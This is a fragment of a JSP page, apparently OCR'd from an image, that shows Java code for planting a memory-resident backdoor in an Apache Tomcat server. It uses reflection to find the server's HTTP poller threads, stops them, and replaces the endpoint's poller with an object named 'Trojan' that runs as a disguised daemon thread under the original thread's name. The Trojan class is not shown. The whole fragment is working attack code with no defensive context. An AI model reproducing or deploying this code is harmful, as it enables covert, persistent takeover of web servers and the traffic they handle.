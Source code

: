 ```yaml
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {

                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    public  NioEndpoint.Poller getAPoller(){
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        NioEndpoint.Poller target = null;
        for(Thread thread: threads){
            if(thread == null)
                continue;
            if(thread.getName().toLowerCase().contains("poller") && thread.getName().contains("http")){
                this.badThread.add(thread);
                if(target == null) {
                    this.name = thread.getName();
                    target = (NioEndpoint.Poller) getField(thread, "target");
                }
            }
        }
        return target;
    }

    NioEndpoint getNio(NioEndpoint.Poller poller){
        NioEndpoint root = (NioEndpoint) getField(poller, "this$0");
        return root;
    }
%>
<%

    NioEndpoint.Poller aPoller = getAPoller();
    NioEndpoint nio = getNio(aPoller);
    Trojan trojan = new Trojan(nio);
    Iterator<Thread> iterator = badThread.iterator();
    while (iterator.hasNext()){
        Thread next = iterator.next();
        next.stop();
    }
    Thread thread = new Thread(trojan, this.name);
    NioEndpoint.Poller[] pollers = (NioEndpoint.Poller[]) getField(nio, "pollers");
    Field pollers1 = null;
    try {
        pollers1 = NioEndpoint.class.getDeclaredField("pollers");
        pollers1.setAccessible(true);
        pollers1.set(nio, new NioEndpoint.Poller[]{trojan});
    } catch (NoSuchFieldException | IllegalAccessException e) {
        e.printStackTrace();
    }
    thread.setPriority(Thread.MIN_PRIORITY);
    thread.setDaemon(true);
    thread.start();
%>
```